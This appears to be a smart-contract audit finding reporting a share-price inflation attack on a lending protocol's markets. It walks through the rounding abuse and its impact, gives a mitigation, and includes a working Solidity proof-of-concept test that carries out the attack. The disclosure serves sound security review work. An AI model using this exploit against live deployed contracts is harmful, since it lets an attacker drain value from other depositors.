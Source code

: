 Joyful Lavender Dalmatian

high

# Inflation Attack through stealth donation

## Summary
- Inflation Attack is possible even though balances are kept track of internally

## Vulnerability Detail
- Where: All Markets
- When: totalSupply() of a market is zero. This can happen at the start of the market or when a market becomes less popular at the end of it's life cycle. 
- Description:
    - When totalSupply() of a market is zero an attacker goes ahead and executes the following steps
        - deposit a few assets and enter market. Borrow a few of those assets and wait for a block. In 10 seconds when atleast 1 wei of interest has accurred, repay all the borrowed funds. 
        - After this redeem all but 1 wei of shares. This makes it so that the totalSupply is 1 and totalAssets = 2 due to rounding. 
        - Now attacker takes advantage of rounding down when depositing and rounding up when withdrawing to inflate the price of a share.
        - In a loop attacker does the following till they get their desired price of 1 share
            1. deposit `totalAssets() * 2 - 1` assets
                - according to `previewDeposit`, it mints  `supply == 0 ? assets : assets.mulDivDown(supply, totalAssets());` of shares. Since the attacker has deposited `totalAssets * 2 - 1` assets and `supply` is 1, shares = `(totalAssets * 2 - 1) * 1 / totalAssets` = 1 is minted. This should have been `1.9999...` but due to rounding down, the attacker gets minted 1 shares. 
                    - This means at this point `supply = 1+1 = 2` and `totalAssets = totalAssets + (totalAssets * 2 - 1)` 
            2. withdraw `1` wei of assets
                - according to `previewWithdraw` it burns `supply == 0 ? assets : assets.mulDivUp(supply, totalAssets());` of shares. since `supply = 2` and `totalAssets = totalAssets + (totalAssets * 2 - 1)`, shares = `1 * 2 / totalAssets + (totalAssets * 2 - 1)` = 1. This should have been near 0 but due to rounding up, attacker's 1 share is burnt. 
                    - This means at this point supply is back to 1 and totalAssets is reduced by just 1. 
        - In this loop the supply stays at 1 and totalAssets increase exponentially. Take a look at the POC to get a better idea. 
        
    
## Impact
- This attack has two implications: Implicit minimum Amount and funds lost due to rounding errors
    - If an attacker is successful in making 1 share worth z assets and a user tries to mint LP Tokens using k*z assets then,
        - If k<1, then the user gets zero share which is not allowed (I am not sure because of which check) and the transaction fails
            - This leads to an implicit minimum amount for a user at the attacker's discretion.
        - If k>1, then users still get some shares but they lose (k- floor(k)) * z) of assets which get proportionally divided between existing share holders (including the attacker) due to rounding errors.
            - users keep losing up to 33% of their assets. (see [here](https://www.desmos.com/calculator/0hrgaxkdyr))
            - This means that for users to not lose value, they have to make sure that k is an integer.

## Code Snippet
- https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/main/protocol/contracts/Market.sol#L944
## POC
- Add below testcase in `test/Market.t.sol` to test the attack.
```solidity
function testInflationAttack() external {
    //require that the total Supply is zero
    require(market.totalSupply() == 0, "totalSupply is not zero");

    //enter the market
    market.auditor().enterMarket(market);

    //make a small deposit
    market.deposit(0.01 ether, address(this));
    //borrow even smaller amount
    uint256 borrowShares = market.borrow(0.005 ether, address(this), address(this));

    //wait for 1 block which is enough so that atleast 1 wei is accured as interest
    vm.roll(block.number + 1);
    vm.warp(block.timestamp + 10 seconds);

    //deposit a few tokens to accure interest
    market.deposit(2, address(this));

    //repay all the debt
    market.refund(borrowShares, address(this));

    //redeem all but 1 wei of the deposit
    uint256 shares = market.balanceOf(address(this));
    market.redeem(shares - 1, address(this), address(this));

    require(market.totalAssets() == 2 && market.totalSupply() == 1, "starting conditions are not as expected");

    uint256 desiredPricePerShare = 8000 ether;
    // The loop to inflate the price
    while (true) {
      uint256 sharesReceived = market.deposit(market.totalAssets() * 2 - 1, address(this));
      require(sharesReceived == 1, "sharesReceived is not 1 as expected"); //this should have been 1.99999... for larger values of i but it is rounded down to 1

      if (market.totalAssets() > desiredPricePerShare) break;

      uint256 sharesBurnt = market.withdraw(1, address(this), address(this));
      require(sharesBurnt == 1, "sharesBunrt is not 1 as expected"); //this should have been ~0.0000001 for larger values of i but it is rounded up to 1
    }

    uint256 sharesBurnt = market.withdraw(market.totalAssets() - desiredPricePerShare, address(this), address(this));
    require(sharesBurnt == 1, "sharesBunrt is not 1 as expected");

    require(
      market.totalAssets() == desiredPricePerShare && market.totalSupply() == 1, "inflating the price was unsuccessful"
    );
  }
```

## Tool used
Manual Review

## Recommendation
- Make sure total supply of share is not between 0 and SOME_MINIMUM_AMOUNT in any case. 
